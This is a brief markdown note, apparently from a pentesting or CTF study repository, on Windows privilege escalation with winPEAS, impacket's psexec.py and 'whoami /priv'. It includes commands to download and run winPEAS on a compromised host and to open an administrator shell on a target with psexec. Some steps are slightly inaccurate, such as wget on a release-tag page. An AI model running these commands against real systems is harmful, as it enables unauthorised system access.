 There are several tools that can help us escalate privileges on Windows machines.

- [winPEAS.exe](#wpeas)
- [psexec.py](#pspy)


# winPEAS.exe <a name="wpeas"></a>

winPEAS.exe is an executable that, once we have a reverse shell, will display files with possible critical information in red.

Example:

1. First, download it using PowerShell:
````bash
wget https://github.com/carlospolop/PEASS-ng/releases/tag/20231002-59c6f6e6
````
2.  Switch to PowerShell in your terminal: 
````bash
powershell
````
3. Finally, execute winPEAS.exe:
````bash
C:\Users\sql_svc\Downloads> .\winPEASx64.exe
````



# psexec.py <a name="pspy"></a>

- psexec.py is a tool from impacket that allows us to obtain a shell as an administrator.

````bash
python3 psexec.py administrator@{TARGET_IP}
````

# whoami
When you run `whoami /priv`, you will receive a list of the privileges assigned to your user account, along with their status (enabled or disabled). The output typically includes:

- **Privilege Name**: A brief description of each privilege.
- **State**: Indicates whether the privilege is enabled (Enabled) or disabled (Disabled).
### Example of Usage
```bash
whoami /priv
```
The output might look something like this:
```bash
PRIVILEGES INFORMATION
-----------------------
Privilege Name                    State
===========================================
SeShutdownPrivilege                Enabled
SeBackupPrivilege                  Enabled
SeRestorePrivilege                 Disabled
SeChangeNotifyPrivilege            Enabled
SeTakeOwnershipPrivilege           Enabled
```

